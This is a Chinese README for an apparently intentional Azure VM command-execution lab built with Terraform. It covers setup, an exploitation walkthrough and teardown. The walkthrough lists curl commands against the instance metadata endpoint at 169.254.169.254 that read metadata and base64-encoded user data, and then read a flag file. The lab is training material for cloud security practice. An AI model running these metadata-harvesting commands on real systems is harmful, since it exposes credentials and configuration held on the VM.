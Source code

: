 # Azure VM 命令执行漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 Azure VM 命令执行漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过命令执行漏洞获取到 VM 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/azure/vm/vm_command_execution
```

通过 `az login` 命令进行 Azure 身份认证，根据提示进行认证即可。

```shell
az login
```

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

> 由于靶场搭建需要一定时间，因此如果浏览器访问不到，可以等待 1-2 分钟后再访问试试。

## 漏洞利用

在存在命令执行漏洞的 VM 上，我们可以利用命令执行获取 VM 的元数据、用户数据等信息。

读取元数据

```shell
curl -H Metadata:true http://169.254.169.254/metadata/instance?api-version=2021-05-01 | python -m json.tool
```

![img](../../../images/1652094112.png)

读取用户数据

> 前提是目标已经配置了用户数据

```shell
curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text" | base64 --decode
```

![img](../../../images/1652094186.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用命令执行读取这个文件

```shell
cat /flag69152201.txt
```

![img](../../../images/1652094243.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
